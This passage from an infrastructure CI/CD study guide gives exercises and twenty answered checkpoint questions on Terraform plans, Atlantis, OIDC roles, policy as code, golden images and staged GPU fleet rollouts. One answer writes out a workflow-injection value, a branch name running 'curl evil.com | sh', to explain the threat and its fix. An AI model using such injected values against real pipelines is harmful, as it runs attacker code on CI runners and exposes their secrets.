- "How would you test Ansible roles and Terraform modules?"

## Exercises

1. **Application vs. Infrastructure CI/CD, Change Management Theater vs. Automated Pipelines, and `WISB == WIRI` (`NPA` Chapter 13):** (a) Contrast application CI/CD with infrastructure CI/CD across statefulness, failure cost, rollback, and credentials, and explain why traditional CAB meetings are "Change Management Theater" compared to placing humans *above* an automated CI pipeline; (b) explain the five pipeline components in `NPA` Chapter 13 (`Templatizer`: peer review, build automation with `validate_yaml.py` and `tox`, 3-layer deployment validation with NAPALM/Batfish/ThousandEyes, virtual staging topologies, and deployment strategies with Junos `<bgp operation="replace">`).
2. **Pull Requests as the Control Plane (`plan -out=tfplan`), Atlantis Locking, and Self-Hosted CI/CD (`AUR` Chapter 22):** (a) Explain why a pipeline must save `terraform plan -out=tfplan` as an artifact and pass that exact file to `terraform apply tfplan` rather than re-running `terraform apply -auto-approve`, and how Atlantis locks workspaces across concurrent PRs; (b) trace the 4-server self-hosted CI/CD architecture in `AUR` Chapter 22 (`Nexus 3`, `Gitea`, `SonarQube`, `Jenkins` with `JCasC` `/var/lib/jenkins/casc_configs/jenkins.yaml`, `Job DSL` `jobs.groovy.j2`, Molecule `Jenkinsfile`, and `ansibleTower` `jobTemplate`).
3. **Passwordless OIDC Federation (`id-token: write`), Separate Plan/Apply Roles, and State Secret Hygiene:** Using `authorize_oidc_token_claims()` in `code/part04/cicd_pipeline_policy.py`, explain: (a) how GitHub Actions / GitLab CI exchanges a short-lived OIDC JWT for cloud credentials without stored static keys; and (b) what claim conditions (`repository`, `ref == refs/heads/main`, `environment`) must separate the read-only `plan` identity from the write `apply` identity so fork PRs and feature branches can never mutate production.
4. **Policy as Code (`OPA` / `Rego`, `Conftest`, `Sentinel`, `Checkov`) and Break-Glass Overrides:** Using `evaluate_terraform_plan_policies()` in `code/part04/cicd_pipeline_policy.py`, trace how `terraform show -json tfplan > plan.json` and `conftest test plan.json` enforce cost caps (`count(created) > 16` restricted `p5.48xlarge` / `p4d.24xlarge` instances unless `Override-Capacity` is set) and protect `Mission-Critical` resources from accidental deletion.
5. **Golden Image Pipelines (`Packer` + `Ansible`) and Staged Physical Fleet Rollouts (`Canary`, `serial`, `max_fail_percentage`):** Using `simulate_staged_fleet_rollout()` in `code/part04/cicd_pipeline_policy.py`, explain: (a) how a Packer golden image pipeline builds, hardens, boot-tests (`nvidia-smi`, DCGM, NCCL), and publishes an immutable GPU node image ID + SBOM; and (b) how draining nodes (`scontrol` / `kubectl drain`), running a 1–2 node canary, validating health/NCCL, and rolling out in batches with `serial: 5` and `max_fail_percentage: 10` prevents fleet-wide outages.
6. **Scheduled Drift Detection (`-detailed-exitcode`), Auto-Heal vs. Alert-Only, and Pipeline Supply-Chain Security:** Using `classify_terraform_detailed_exitcode()`, explain: (a) how `terraform plan -detailed-exitcode` (`0`, `1`, `2`) and Argo CD detect out-of-band drift and when to auto-heal versus alert-only; and (b) how ephemeral runners, `concurrency` groups with `cancel-in-progress: false`, action SHA pinning, `CODEOWNERS` on `.github/`, and avoiding `pull_request_target` protect the CI system itself.

## Checkpoint questions (20)

<details>
<summary>1. What does "CI produces evidence, CD controls mutation" mean, and why is infrastructure rollback fundamentally harder than application rollback?</summary>

- **CI produces evidence; CD controls mutation:** Continuous Integration runs on every pull request to produce verifiable proof (`fmt`, `validate`, linters, security scans, `terraform plan`, `ansible --check --diff`, OPA policy results, and ephemeral test reports) attached to the PR. Continuous Delivery/Deployment mutates real infrastructure **only after** human approval and merge, applying the exact change set that was reviewed.
- **Why rollback is harder:** Rolling back a stateless container deployment simply starts the old image tag; rolling back infrastructure faces **state and physics**—a deleted S3 bucket, a dropped database column, a flashed BMC/NIC firmware image, or a split InfiniBand subnet manager cannot be undone simply by running `git revert`.
</details>

<details>
<summary>2. In *Network Programmability and Automation* Chapter 13, why are manual CAB approvals called "Change Management Theater", and what are the five components of a network CI pipeline?</summary>

In traditional Change Advisory Board (**CAB**) meetings, engineers describe a proposed change in prose on a form and then manually type CLI commands into production routers over SSH at midnight—providing zero guarantee that the commands typed match the ticket or are syntactically valid. Moving humans **above** the pipeline replaces theater with five automated stages:
1. **Peer review** (`GitHub` PRs, `GitLab` MRs, `Gerrit`, `Bitbucket`) where the diff *is* the change description.
2. **Build automation** (`validate_yaml.py`, `tox -epep8`, `tox -epy38`, `tox -ecover`) catching syntax/logic bugs before human review.
3. **Deployment validation** across **operational state** (BGP peers, NAPALM/Batfish/Forward Networks), **basic connectivity**, and **end-to-end performance** (NetBeez, ThousandEyes, streaming telemetry).
4. **Test/dev/staging virtual topologies** (`Vagrant`, `Containerlab`, `Terraform`).
5. **Controlled deployment strategies** (Rolling, Canary, Blue/Green, and section-level replacement like Junos `<bgp operation="replace">` so **What It Should Be (`WISB`) equals What It Really Is (`WIRI`)**).
</details>

<details>
<summary>3. Contrast Continuous Integration, Continuous Delivery, and Continuous Deployment (`NPA` Chapter 13 & `AUR` Chapter 22).</summary>

- **Continuous Integration (CI):** Developers merge code changes into a shared mainline frequently (at least daily), triggering automated build, lint, and test suites on every push to catch integration errors early (Martin Fowler, 2006).
- **Continuous Delivery (CD):** Every merged change is automatically built, tested, and validated in staging so the codebase is **always in a deployable state**, while the actual push to production remains gated by a human decision or maintenance window.
- **Continuous Deployment:** Every change that passes automated pipeline stages is deployed to production immediately with no human gate—common for web apps, but risky for core physical and stateful infrastructure without canary/soak gates.
</details>

<details>
<summary>4. Why must a Terraform pipeline save `terraform plan -out=tfplan` and pass that exact file to `terraform apply tfplan`?</summary>

If a pipeline runs `terraform plan` on the pull request for human review, and then runs a fresh `terraform apply -auto-approve` after merge without a saved plan artifact, any change to the remote state, cloud API, or dynamic data sources between the PR review and the merge will be **silently applied without anyone ever reviewing it** (a time-of-check to time-of-use race). Saving `terraform plan -out=tfplan` and applying `terraform apply tfplan` guarantees that Terraform executes the **exact binary plan that passed policy checks and human review** (and fails fast if the state lock advanced in the interim).
</details>

<details>
<summary>5. How does Atlantis turn pull requests into a Terraform control plane, and how does it prevent conflicting applies?</summary>

**Atlantis** is a self-hosted webhook server that listens to pull-request events and PR comments (`atlantis plan`, `atlantis apply`):
- It runs `terraform plan` automatically on PRs and posts the formatted diff back as a PR comment.
- It **locks the workspace/directory+environment** as soon as a plan is generated for a PR so no other PR can plan or apply conflicting changes to that state until the first PR is applied (`atlantis apply`, gated by `apply_requirements: [approved, mergeable]` in `atlantis.yaml`) or its lock is explicitly discarded (`atlantis unlock`).
- It centralizes cloud credentials on a single hardened controller rather than distributing them across developer laptops.
</details>

<details>
<summary>6. How does OpenID Connect (`OIDC`) federation eliminate stored cloud keys in CI, and how should `plan` and `apply` roles be separated?</summary>

With **OIDC federation** (`permissions: { id-token: write }` in GitHub Actions), the CI provider mints a short-lived, cryptographically signed JWT for the job containing claims for the `repository`, `ref` (branch/tag), `actor`, and `environment`. The cloud provider (GCP Workload Identity Federation, AWS IAM Web Identity, Azure Federated Credentials, or HashiCorp Vault JWT auth) verifies the issuer signature and exchanges the token for a temporary credential lasting only for that job:
- **`tf-plan` role (Read-Only):** Trusts `repo:org/infra:*` on pull requests (`pull_request` event, never from untrusted forks) with read-only cloud permissions.
- **`tf-apply` role (Write):** Trusts **only** `repo:org/infra:environment:prod` (and `ref:refs/heads/main`), so a feature branch or PR job can never assume write permissions.
</details>

<details>
<summary>7. Why is the Terraform state file a high-value secret store even if you never hardcode passwords in `.tf` files?</summary>

Whenever Terraform creates a resource (such as a database, TLS key, or service account token) or reads a secret via a `data` source, **Terraform stores the raw, unencrypted attribute values inside `terraform.tfstate`** (marking an output `sensitive = true` only hides it from CLI terminal logs, not from the state file). Therefore, the remote state backend (S3/GCS bucket) must be encrypted at rest with KMS, versioned, blocked from public access, and restricted via IAM solely to the CI pipeline identities and break-glass admins.
</details>

<details>
<summary>8. Why must a deployment workflow set `concurrency: { group: infra-${{ github.ref }}, cancel-in-progress: false }`?</summary>

- **`group: infra-...`:** Ensures only **one pipeline run per environment/state** executes at a time, queuing subsequent commits instead of racing two `terraform apply` or `ansible-playbook` runs against the same cluster.
- **`cancel-in-progress: false`:** In application CI, cancelling a superseded test run saves runner minutes; in infrastructure CD, **cancelling an in-flight `terraform apply` mid-execution kills the process while cloud APIs are still mutating resources**—leaving state partially updated, locks dangling, or half-configured nodes. Never auto-cancel an in-flight apply.
</details>

<details>
<summary>9. How does Policy as Code (`OPA` / `Rego` with `Conftest`, `Sentinel`, `Checkov`) work on a Terraform plan?</summary>

After generating a binary plan (`terraform plan -out=tfplan`), the pipeline converts it to machine-readable JSON via **`terraform show -json tfplan > plan.json`** and evaluates it against declarative policy rules (`conftest test plan.json --policy policies/`). Rego `deny contains msg if { ... }` rules inspect `input.resource_changes` (`rc.type`, `rc.change.actions`, `rc.change.before`, `rc.change.after`) to block unsafe mutations automatically—such as creating more than 16 `p5.48xlarge` GPU instances without an `Override-Capacity` tag, opening `0.0.0.0/0` management ports, omitting required cost-center tags, or deleting any resource tagged `Mission-Critical == "true"`.
</details>

<details>
<summary>10. What are the stages of a Golden Image pipeline (`Packer` + `Ansible`) for GPU cluster nodes, and why boot from immutable images instead of configuring live nodes after boot?</summary>

Configuring bare-metal or cloud GPU nodes from scratch via `apt`/`dnf` and driver compiles at boot time takes 20–40 minutes, depends on external mirrors during scale-up, and drifts across nodes booted on different days. A **Packer golden image pipeline**:
1. Boots a clean base OS image in an isolated build environment.
2. Runs **Ansible roles** to install the exact NVIDIA GPU driver, CUDA toolkit, Fabric Manager, `containerd`, `nvidia-container-toolkit`, DCGM, and sysctl/kernel tunings.
3. Runs **CIS hardening** and **Trivy/Grype vulnerability scans** and generates an **SBOM**.
4. Boots a **real GPU smoke-test instance** to verify `nvidia-smi`, `dcgmi diag -r 1`, and a quick NCCL test.
5. Publishes an **immutable image ID** (AMI / GCP image / BCM software image / OCI disk image) tagged with the Git SHA and driver/CUDA versions, while retaining the last $N$ images for instant rollback.
</details>

<details>
<summary>11. Walk through a safe, staged rollout of a driver or kernel update across a 1,000-node physical GPU cluster.</summary>

Never apply a disruptive change to an entire fleet at once:
1. **Canary stage (1–2 nodes):** Drain the canary nodes from Slurm (`scontrol update NodeName=... State=DRAIN Reason="maint"`) or Kubernetes (`kubectl drain`), apply the change or reboot into the new golden image, and run automated **post-apply validation** (`nvidia-smi`, ECC counters = 0, InfiniBand/RoCE link speed active, DCGM health, and a multi-node `all_reduce_perf` bandwidth check).
2. **Soak & gate:** Observe canary SLOs and metrics during a soak window; halt immediately if any check fails.
3. **Batched rollout (`serial` & `max_fail_percentage`):** Roll out across the fleet in failure-domain-aware batches (e.g., 5% of nodes or one rack at a time via Ansible `serial: 20` and `max_fail_percentage: 5`), draining before each batch, running the validation play before undraining (`State=RESUME`), and **stopping the line automatically** if failures exceed the threshold.
</details>

<details>
<summary>12. In *Ansible: Up and Running* Chapter 22, what four servers make up the self-hosted CI/CD stack, and how do `JCasC` and `Job DSL` automate Jenkins?</summary>

The four self-hosted VMs provisioned by Ansible in `AUR` Chapter 22 are:
1. **Sonatype Nexus 3** (`nexus_config_pypi: true`, `nexus_config_docker: true`): local caching proxy and artifact repository for wheels and container images.
2. **Gitea + MySQL** (port `3000`): self-hosted Git server.
3. **SonarQube + PostgreSQL** (with the `ansible-lint` plugin): static code quality and technical debt analyzer.
4. **Jenkins + Docker**: CI server configured without manual web-UI clicks via **Jenkins Configuration as Code (`JCasC`)** (`/var/lib/jenkins/casc_configs/jenkins.yaml` loaded via `-Dcasc.jenkins.config=...`) and the **Job DSL** seed job (`/home/jenkins/jobs.groovy` templated from `jobs.groovy.j2` and reloaded via `jenkins-cli.jar reload-jcasc-configuration`).
</details>

<details>
<summary>13. Why should a CI pipeline trigger a Job Template on AWX / Ansible Automation Controller (`ansibleTower`) rather than holding production SSH keys on Jenkins/GitHub runners (`AUR` Chapter 22)?</summary>

When Jenkins or GitHub Actions runs `ansible-playbook` directly against production hosts, the CI runner must possess raw SSH private keys and Ansible Vault passwords for the entire fleet. By instead using the **`ansibleTower` plugin** (or AWX/AAP REST API webhook) to trigger a pre-defined **Job Template (`jobTemplate: '1234'`)** on **Ansible Automation Controller**, the SSH keys and Vault credentials remain encrypted inside the controller's credential store, access is governed by controller RBAC, and every playbook execution is centrally logged and audited.
</details>

<details>
<summary>14. Summarize the 6-level testing hierarchy for Infrastructure as Code and when each level runs.</summary>

1. **Static (every commit, seconds):** `terraform fmt/validate`, `tflint`, `yamllint`, `ansible-lint`, `kubeconform`, `shellcheck`, `hadolint`, `gitleaks`, `checkov`.
2. **Unit / Render (every commit, seconds):** `terraform test` with mock providers, Conftest Rego unit tests (`conftest verify`), Jinja2 template rendering against golden files.
3. **Plan / Diff (every PR, seconds to minutes):** `terraform plan`, `ansible-playbook --check --diff`, `helm diff`, `dyff`.
4. **Integration (PR or merge, minutes):** Ephemeral real resources via `Terratest` (Go), `Molecule` + `Testinfra` on containers/VMs, `Containerlab`, or `kind`/`k3d` clusters (with TTL tags to reap leaked resources).
5. **End-to-End (pre-prod / nightly):** Staging cluster slice running `nccl-tests` and synthetic training smoke jobs.
6. **Operational (scheduled):** Nightly drift detection (`terraform plan -detailed-exitcode`), backup restore drills, and failover game days.
</details>

<details>
<summary>15. How does `terraform plan -detailed-exitcode` work in a nightly drift-detection job, and when should drift be auto-healed versus alerted?</summary>

Running `terraform plan -input=false -detailed-exitcode` returns one of three POSIX exit codes:
- **`0`**: Succeeded, diff is empty (**no drift**).
- **`1`**: Error occurred.
- **`2`**: Succeeded, and **non-empty diff (drift detected)**.
For **stateless resources** (Kubernetes Deployments, ConfigMaps, host config files managed by Argo CD `selfHeal` or scheduled Ansible runs), automatic reconciliation back to Git is safe. For **stateful infrastructure** (databases, storage buckets, VPCs, stateful GPU instances), a nightly drift job must **alert only** (posting the plan diff to Slack/PagerDuty/Jira)—never auto-apply—because an automatic revert could delete production data or terminate active training nodes, and sometimes an out-of-band emergency fix should be imported/adopted into Git instead.
</details>

<details>
<summary>16. Why are self-hosted CI runners a critical security boundary, and how must they be hardened?</summary>

An infrastructure CI runner sits inside your private management network and can assume cloud/cluster admin roles—making a compromised runner equivalent to root on the fleet. Harden runners by:
1. Using **ephemeral, single-use runners** (a fresh container or microVM per job that is destroyed immediately after the job exits, leaving zero cached credentials or filesystem state).
2. Isolating runners in a restricted network segment with strict egress filtering.
3. Never running untrusted fork pull requests on privileged self-hosted runners.
4. Separating read-only PR plan runners from protected production apply runners.
</details>

<details>
<summary>17. Why is the GitHub Actions `pull_request_target` trigger dangerous, and how can untrusted PR metadata cause shell injection in workflows?</summary>

- **`pull_request_target`:** Unlike standard `pull_request` (which runs in the context of the PR branch with a read-only `GITHUB_TOKEN` and no secrets on forks), `pull_request_target` runs in the privileged context of the **base branch (`main`) with full access to repository secrets and write permissions**. If a `pull_request_target` workflow checks out and executes code or scripts from the untrusted PR head, an attacker can exfiltrate every secret in the repository.
- **Workflow shell injection:** Interpolating untrusted GitHub context expressions like `${{ github.head_ref }}` or `${{ github.event.pull_request.title }}` directly inside a `run: |` shell script lets a branch named `feat"; curl evil.com | sh #` execute arbitrary commands. Pass untrusted values through job `env:` variables (`BRANCH: ${{ github.head_ref }}`) and quote `"$BRANCH"` in shell.
</details>

<details>
<summary>18. What supply-chain controls protect a CI/CD pipeline from compromised third-party actions, providers, and tools?</summary>

1. **Pin GitHub Actions to full 40-character commit SHAs** (`uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`) rather than mutable tags (`@v4`).
2. **Commit `.terraform.lock.hcl`** and verify binary SHA-256 checksums / Cosign signatures for downloaded tools (`terraform`, `conftest`, `kubectl`, `helm`).
3. **Mirror critical base images and packages** in a private registry/proxy (`Nexus`, `Artifactory`, `Harbor`) as shown in `AUR` Chapter 22.
4. **Protect `.github/workflows/` and `policies/` in `CODEOWNERS`** so no PR can weaken pipeline checks or modify OIDC roles without security/platform-owner approval.
</details>

<details>
<summary>19. How do the four DORA metrics apply to an infrastructure and platform engineering team?</summary>

1. **Deployment Frequency:** How often safe, small infrastructure changes merge and roll out.
2. **Lead Time for Changes:** Time from commit/PR creation to verified production apply (shortened by automated static/plan/policy gates replacing weekly CAB queues).
3. **Change Failure Rate:** Percentage of infrastructure applies that trigger an alert, SLO violation, or rollback (reduced by saved plans, Conftest policies, virtual topologies, and canary rollouts).
4. **Mean Time to Restore (MTTR):** How fast the team detects and recovers from a bad change via `git revert`, immutable golden image rollback, or tested restore playbooks.
</details>

<details>
<summary>20. How should an emergency "Break-Glass" procedure work when the CI pipeline is down or too slow during a critical outage?</summary>

A break-glass procedure provides a **pre-defined, time-bounded, fully audited emergency path**:
1. An on-call engineer requests temporary elevated credentials (e.g., via PagerDuty-gated cloud IAM / Vault role elevation or an `Override-Capacity` tag with mandatory incident ticket ID), which automatically pages security/secondary on-call and records session logs.
2. The engineer mitigates the immediate outage.
3. **Mandatory post-incident reconciliation:** Before the incident can be closed, the out-of-band change is codified into a Git commit, reviewed via PR, and verified with `terraform plan` (showing `No changes`) so Git and reality are back in sync (`WISB == WIRI`).
</details>

## Sources and review notes

- **Sources read in full:**
  - `network-programmability-and-automation-2nd-edition` — Christian Adell, Scott Lowe, Matt Oswalt & Jason Edelman, *Network Programmability and Automation*, 2nd ed., **Chapter 13: Continuous Integration** (read in full: removing humans from the direct control path vs "Change Management Theater" / CAB meetings, release engineers, cookie-cutter vs snowflake designs, CI vs Continuous Delivery vs Continuous Deployment, Test-Driven Development `TDD`, the 5-part `Templatizer` CI pipeline with GitLab Merge Requests, `validate_yaml.py`, `.gitlab-ci.yml`, `tox -epep8/-epy38/-ecover`, Codecov, 3-layer deployment validation across Operational state / Basic connectivity / End-to-end performance with NAPALM, Batfish, Forward Networks, NetBeez, ThousandEyes, and streaming telemetry, virtual test topologies with Vagrant/Containerlab/Terraform, and deployment strategies: Deploy in place, Rolling, Canary, Blue/Green, and Junos XML `<bgp operation="replace">` ensuring `WISB == WIRI`).
  - `ansible-up-and-running-3rd-edition` — Bas Meijer, Lorin Hochstein & René Moser, *Ansible: Up and Running*, 3rd ed., **Chapter 22: CI/CD and Ansible** (read in full: Martin Fowler's 2006 CI definition, provisioning the 4-VM CI/CD stack with Sonatype Nexus 3 `nexus_config_pypi`/`nexus_config_docker`, Gitea + MySQL on port `3000`, SonarQube + PostgreSQL with `ansible-lint`, and Jenkins + Docker; Jenkins Configuration as Code `JCasC` `/var/lib/jenkins/casc_configs/jenkins.yaml` with `-Dcasc.jenkins.config`, `Job DSL` seed job `jobs.groovy.j2` + `jenkins-cli.jar reload-jcasc-configuration`, declarative `Jenkinsfile` running Molecule stages `syntax`/`lint`/`converge`/`verify`/`idempotence`, and `ansiblePlaybook` vs `ansibleTower` `jobTemplate: '1234'` on Ansible Automation Controller).
  - `nvidia-devops` (`volume-10/11-cicd-for-infrastructure-and-cluster-configuration.md`): evidence vs mutation, Atlantis, Argo CD and Flux, AWX integration, OIDC-based GitHub Actions pipeline, OPA/Rego policies for GPU cost/network/IAM/deletion, Packer golden image pipelines, canary and batched fleet rollouts, and scheduled drift detection.
- **Run here:** `python3 code/part04/cicd_pipeline_policy_lab.py` (4 passed, 0 failed).
- **Explicitly labelled inferences:** The `evaluate_terraform_plan_policies`, `authorize_oidc_token_claims`, `simulate_staged_fleet_rollout`, and `classify_terraform_detailed_exitcode` models in `code/part04/cicd_pipeline_policy.py`, the reference GitHub Actions workflow, and the Rego `package terraform.cost` policy are the author's constructions synthesizing `NPA` Chapter 13, `AUR` Chapter 22, and `volume-10` (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, and 35).
- **Not verified on live hardware:** Live GitHub Actions / GitLab / Jenkins / Atlantis / Packer / cloud OIDC executions (`p5.48xlarge`, `p4d.24xlarge`, `16` instances, `projects/123`, `3000`, `8080`, `3306`, `0440`, `0750`, `1234`, `v2`, `v3`, `v4`) are marked (`untested here`) where not executed by `cicd_pipeline_policy_lab.py`.
